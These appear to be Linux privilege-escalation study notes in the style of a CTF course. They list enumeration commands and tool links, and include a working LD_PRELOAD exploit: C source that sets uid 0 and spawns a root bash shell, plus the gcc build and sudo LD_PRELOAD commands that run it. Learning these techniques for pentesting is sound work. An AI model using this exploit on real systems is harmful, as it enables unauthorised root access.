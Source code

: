 # Linux PrivEsc

## Important files

`/proc/version` = may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

`/etc/issue` = This file usually contains some information about the OS but can easily be customized or changed

`/etc/passwd` = Shows users on the system



Cat users with home directory

```bash
cat /etc/passwd | grep home
```

## Important commands

`hostname` = get **hostname** of target

`uname -a` = Print system info + **kernel** info

`ps` = See running processes in Linux

* `ps -A` = View all running processes
* `ps axjf` = View process tree
* `ps aux` = Show processes for all users, display the user that launched the process, and show the processes that are not attached to a terminal

`env` = Show **environment** variables

* The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

`sudo -l` = List **all commands** user can run using **sudo**

`id` = provide a general overview of the **user's privilege level** and **group memberships**

`history` = History file might have some **passwords** or **usernames** inside

`netstat` = Gather information on existing connections

* `netstat -a` shows all listening ports and established connections
* `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
* `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol&#x20;
* `netstat -s`: list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.
* `netstat -tp`: list connections with the service name and PID information.
* `netstat -i`: Shows interface statistics.
* The `netstat` usage you will probably see most often in blog posts, write-ups, and courses is `netstat -ano` which could be broken down as follows;
  * `-a`: Display all sockets
  * `-n`: Do not resolve names
  * `-o`: Display timers

Find

* `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
* `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
* `find / -type d -name config`: find the directory named config under “/”
* `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
* `find / -perm a=x`: find executable files
* `find /home -user frank`: find all files for user “frank” under “/home”
* `find / -mtime 10`: find files that were modified in the last 10 days
* `find / -atime 10`: find files that were accessed in the last 10 day
* `find / -cmin -60`: find files changed within the last hour (60 minutes)
* `find / -amin -60`: find files accesses within the last hour (60 minutes)
* `find / -size 50M`: find files with a 50 MB size

Find files permission based on permissions

* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
* `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders



* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders



Find development tools and supported languages:

* `find / -name perl*`
* `find / -name python*`
* `find / -name gcc*`



SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

## Automated Enumeration Tools

* LinPeas:&#x20;

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS" %}

* LinEnum:&#x20;

{% embed url="https://github.com/rebootuser/LinEnum" %}

* LES (Linux Exploit Suggester):

{% embed url="https://github.com/mzet-/linux-exploit-suggester" %}

* Linux Smart Enumeration:

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

* Linux Priv Checker:

{% embed url="https://github.com/linted/linuxprivchecker" %}

## Kernel Exploits

1. Based on your findings, you can use **Google** to search for an existing exploit code.
2. Sources such as this can also be useful:

{% embed url="https://www.linuxkernelcves.com/cves" %}

3. Another alternative would be to use a script like **LES (Linux Exploit Suggester)** but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

## Sudo

{% embed url="https://gtfobins.github.io/" %}

### LD\_PRELOAD

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD\_PRELOAD (with the env\_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (47).png" alt=""><figcaption></figcaption></figure>

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD\_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

## SUID

`find / -type f -perm -4000 2>/dev/null`

## Capabilities

`getcap` = List enabled capabilities

`getcap -r / 2>/dev/null` = Redirect errors when using running this command as unprivileged user

## Cron Jobs

`/etc/crontab` = Cron jobs file

## Path

See Path Variable: `echo $PATH`

You can use C scripts with system() function in this privesc method

## NFS

`cat /etc/exports` = See NFS (Network File Sharing) configuration

Look out for **no\_root\_squash** option

`showmount -e [IP_ADDR]` = Enumerate mountable shares

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (48).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (14).png" alt=""><figcaption></figcaption></figure>

As you can set SUID bit, you generate a C code and compile it. It automatically is also visible on the mounted directory on target
